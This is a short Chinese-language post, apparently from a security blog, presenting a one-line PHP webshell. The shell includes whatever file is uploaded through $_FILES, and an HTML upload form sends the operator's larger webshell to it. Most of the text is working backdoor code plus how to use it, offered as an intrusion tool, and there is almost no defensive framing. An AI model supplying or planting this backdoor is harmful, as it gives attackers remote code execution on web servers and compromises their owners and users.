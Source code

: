 另类PHP一句话小马

利用了include可以把任何文件当php来解释的特性, 当我们上传一个文件的时候，会在服务器上生成一个临时文件，而$_FILES这个变量里面正好保存了这个文件的路径，所以可以直接include进来。

    <?php @include($_FILES['u']['tmp_name']);  

使用方式也简单构造一个html文件写入如下代码:

    <form action="http:/a.b.c.com.cn/shell.php" method="POST" enctype="multipart/form-data">  
    <input type="file" name='u'>  
    <button>shell</button>  
    </form>  
    from: <a href="http://www.zeroplace.cn/">www.zeroplace.cn</a>  

选择你的php大马点shell运行

我测试的时候的代码就是<?php phpinfo();保存的文件名为1.txt。

[url](http://www.zeroplace.cn/article.asp?id=906)